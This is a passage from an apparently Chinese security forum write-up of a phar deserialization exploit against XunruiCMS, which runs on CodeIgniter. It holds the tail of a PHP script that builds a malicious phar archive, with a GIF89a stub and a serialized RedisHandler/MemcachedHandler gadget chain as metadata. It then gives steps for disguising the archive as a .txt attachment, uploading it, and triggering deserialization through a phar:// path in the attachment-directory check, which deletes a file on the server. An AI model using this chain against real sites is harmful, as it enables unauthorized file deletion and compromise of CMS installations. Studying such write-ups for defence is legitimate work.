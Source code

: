 ```php
        $this-&gt;redis = new \CodeIgniter\Session\Handlers\MemcachedHandler(); //指向MemcachedHandler对象
     }
    //因为后续有 this-&gt;redis-&gt;close()操作，可以用MemcachedHandler的close函数。
}

$o =  new RedisHandler();
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar-&gt;startBuffering();
$phar-&gt;setStub("GIF89a"."&lt;?php __HALT_COMPILER(); ?&gt;"); //设置stub
$phar-&gt;setMetadata($o); //将自定义的meta-data存入manifest
$phar-&gt;addFromString("test.txt", "test"); //添加要压缩的文件
$phar-&gt;stopBuffering(); //签名自动计算
?&gt;
```

利用过程
----

### `phar`文件上传点

（原本想试试头像上传的，发现文件被压缩，就找了个上传附件的位置）

```php
http://xunruicms-study/index.php?s=member&amp;app=news&amp;c=home&amp;m=add
```

第一步，来到文章发布的后台（需要有附件上传权限）  
发布内容中，下面有个附件上传  
![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-5a63e145a93e31f1ff057608aa9e25e14b370b88.png)  
这里可以显示上传的内容（zip,rar,txt,doc），我们只需要把phar.phar包 该后缀满足白名单就行，我改为phar.txt

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-9d9bf4b7f540e505cff4a7a3ed0c7c6e45a65cd8.png)  
点击上传后的附件，会弹出一个url。我们只需要拿到 `/upload` 后面的构造`phar://`语句

```php
phar://uploadfile/202407/de5d2812b5ba390.txt/test.txt
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-09b3bd29da1d9855b304bc8d87f908f09ae01818.png)

### Phar反序列化点

`备注`：`test\_attach\_domain`函数作为利用点。  
需要反序列化执行的命令

```php
phar://uploadfile/202407/de5d2812b5ba390.txt/test.txt
```

到这边，需要选择完整模式 -&gt; 系统附件设置 -&gt; 附件上传目录（输入我们的命令) 点击检测  
![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-f1e45496f648a4c6c647df091b7fe862706196b0.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20240801131323-c6d337ba-4fc4-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240801131323-c6d337ba-4fc4-1.png)  
反序列化出来了我们的FileHandler对象，说明反序列化攻击成功，我们的文件也成功被删除  
![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-5683c23629555ecdcdce62c36b254a542ee3fb5f.png)